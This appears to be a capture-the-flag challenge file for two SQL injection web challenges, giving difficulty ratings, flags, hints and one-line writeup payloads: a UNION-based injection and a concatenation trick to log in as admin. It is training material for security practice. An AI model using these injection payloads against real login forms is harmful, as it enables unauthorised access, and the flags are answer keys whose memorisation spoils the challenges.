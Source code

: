 # Apocalypse Security - 4

After all that threat, the company decided to invest in security. They
said there is a filter. See if you can crack it.



# Difficulty
6/10

# Flag
PCTF{f1l7ers_n0t_s3cur3}

# Hints
SQL injection


# Author
Yojan (drMoscovium)

# Tester

# Writeup
```
admin' UNION NULL, NULL --
```

# Apocalypse Security - 5


Good Job bypassing the filter, can you log in as admin now?


# Difficulty
7/10

# Flag
PCTF{w0rld_0f_sQl_8kdw7}

# Hints
SQL injection


# Author
Yojan (drMoscovium)

# Tester

# Writeup
```
ad'||'min' --
```


